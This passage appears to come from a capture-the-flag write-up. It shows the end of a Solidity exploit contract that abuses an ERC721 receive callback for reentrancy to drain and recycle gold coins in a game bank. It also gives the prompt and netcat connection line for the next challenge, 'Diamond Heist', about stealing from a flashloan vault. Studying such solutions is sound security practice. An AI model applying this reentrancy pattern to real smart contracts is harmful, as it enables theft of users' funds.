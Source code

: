 ```solidity
        bank.split(1, amounts);
    }

    function onERC721Received(address, address, uint256, bytes calldata) public returns (bytes4) {
        // Only perform the exploit on the third onERC721Received call
        if (hitCount == 2) {
            // Withdraw all gold coins from banknote (id 2)
            bank.withdraw(2);

            // Transfer all coins to Knight
            goldCoin.transfer(address(knight), goldCoinAmount);
            
            // Buy items 3 and 4
            knight.buyItem(3);
            knight.buyItem(4);

            // Fight Dragon until its health is 0
            while (dragon.health() > 0) {
                knight.fightDragon();
            }

            // Sell items 3 and 4
            knight.sellItem(3);
            knight.sellItem(4);

            // Deposit gold coins into a new banknote (id 4)
            knight.bankDeposit(goldCoinAmount);

            // Transfer all gold coins back to this contract's banknote (id 1)
            knight.bankTransferPartial(4, goldCoinAmount, 1);
        }
        
        // Increment the counter by 1
        hitCount += 1;

        return this.onERC721Received.selector;
    }

}
```

<br>
<br>

# Diamond Heist

> Salty Pretzel Swap DAO has recently come out with their new flashloan vaults. They have deposited all of their 100 Diamonds in one of their vaults.
> 
> Your mission, should you choose to accept it, is to break the vault and steal all of the diamonds. This would be one of the greatest heists of all time.
> 
> This text will self-destruct in ten seconds.
> 
> Good luck.
>
> `nc 34.141.16.87 30200`

